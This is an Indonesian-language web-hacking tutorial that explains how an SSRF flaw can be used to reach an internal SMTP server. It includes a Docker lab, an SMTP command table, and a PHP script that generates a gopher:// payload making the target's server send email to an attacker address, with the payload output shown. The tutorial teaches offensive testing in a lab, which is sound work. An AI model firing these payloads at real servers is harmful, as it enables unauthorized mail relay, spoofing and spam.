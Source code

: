 # SSRF And SMTP

SSRF bisa dimanfaatkan untuk berinteraksi dengan SMTP, sehingga attacker bisa mengirim email melalui server SMTP dari website yang _vulnerable_ SSRF.

![Skema dasar serangan SSRF And SMTP](../../.gitbook/assets/ssrf_smtp-1.png)

### Lab Setup

Email Server menggunakan `sendmail` dan di_deploy_ menggunakan `docker`.

```bash
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab
```

![Halaman index lab](../../.gitbook/assets/lab.JPG)

\*\* Port HTTP sengaja diforward ke 8022 karena memang di Host Server port 80 nya sudah ada service yang berjalan.

{% hint style="info" %}
Lab tersebut hanya menggunakan setingan _default_ sendmail, mungkin tidak akan bisa mengirim \(_Outgoing Mail_\) pesan ke provider-provider email tertentu seperti Gmail.
{% endhint %}

### SMTP \(Simple Mail Transfer Protocol\) 101

SMTP berfungsi untuk mengirim email dari SMTP server pengirim ke SMTP server penerima email, secara default port SMTP adalah 25, selain itu SMTP mempunyai port lain yaitu 587 MSA \(_message submission agent_\), bedanya dengan port 25 adalah port 587 membutuhkan Autentikasi SMTP. Port 587 ini lebih sering digunakan karena tergolong lebih aman dibandingkan port 25.

#### Beberapa Command SMTP

| **Command** | **Deskripsi** |
| :--- | :--- |
| `HELO <FQDN>` | Say Hello ke SMTP server agar saling mengenal |
| `MAIL FROM <Your_Email>` | Set Email pengirim |
| `RCPT TO <Receiver_Email>` | Set Email tujuan |
| `DATA` | Mulai menulis isi email, lalu akhiri dengan "." untuk mengirim |
| `VRFY <username>` | Melakukan verifikasi mailbox user di local host |
| `EXPN <username>` | \( sama seperti VRFY \) |
| `QUIT` | Keluar dari SMTP |

![Contoh penggunaan command SMTP](../../.gitbook/assets/smtp_command_telnet.JPG)

{% hint style="info" %}
**Trivia :** _Command_ RCPT TO, VRFY, dan EXPN dapat digunakan untuk melakukan _Username Enumeration_ yang sangat berguna saat melakukan _pentesting_.
{% endhint %}

### SMTP Hates HTTP

Seperti yang dikatakan **Orange Tsai** dalam presentasinya bahwa "_SMTP Hates HTTP_" karena memang HTTP tidak bisa melakukan _smuggling_ ke SMTP.

Pada `sendmail` terdapat changelog yang mengatakan akan menolak apabila paketnya di awali dengan _GET_, _POST_, _CONNECT,_ atau _USER_

```text
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

Sangat mustahil untuk melakukan _smuggling_ HTTP ke SMTP, karena memang pasti akan ditolak, tetapi protokol Gopher dan HTTPS bisa melakukan _smuggling_ ke protokol SMTP sehingga bisa menjadi solusi terhadap permasalahan tersebut.

{% hint style="info" %}
**HTTPS** tidak mendukung _multiline_ _request_ seperti gopher, oleh karena itu dibutuhkan celah _CRLF Injection_ apabila ingin melakukan _querying_ SMTP melalui HTTPS
{% endhint %}

### Querying SMTP Melalui Gopher

Syntax Gopher untuk Querying SMTP seperti dibawah ini.

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

_Script_ di bawah ini bisa digunakan untuk meng-automasi pembuatan _payload_.

```php
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <root@target.0xff.web.id>',
                'RCPT TO: <attacker@email.com>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );

        $payload = implode('%0A', $commands); // memisahkan tiap command dengan newline

        echo 'gopher://127.0.0.1:25/_' . $payload;
?>
```

{% hint style="info" %}
Tanda \_ \(_**underscore**_\) setelah &lt;port&gt;:/ untuk mewakili _gophertype_, sehingga harus disertakan, karena apabila tidak disertakan karakter payload akan terpotong 1 karakter, misal payloadnya adalah _HelloWorld_, apabila tanda \_ tidak disertakan payloadnya akan menjadi _ElloWorld_.
{% endhint %}

#### Percobaan Serangan

```bash
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <root@target.0xff.web.id>%0ARCPT TO: <attacker@email.com>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

Masukan _payload_ yang sudah di-_generate_ ke web target.

![](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-48.png)

![Pesan setelah payload disubmit](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-03.png)

Terdapat email dari server target masuk.

![Email Masuk](../../.gitbook/assets/inbox.jpg)

### Referensi

[http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/) [https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)                    [https://tools.ietf.org/html/rfc4266](https://tools.ietf.org/html/rfc4266) [https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs)

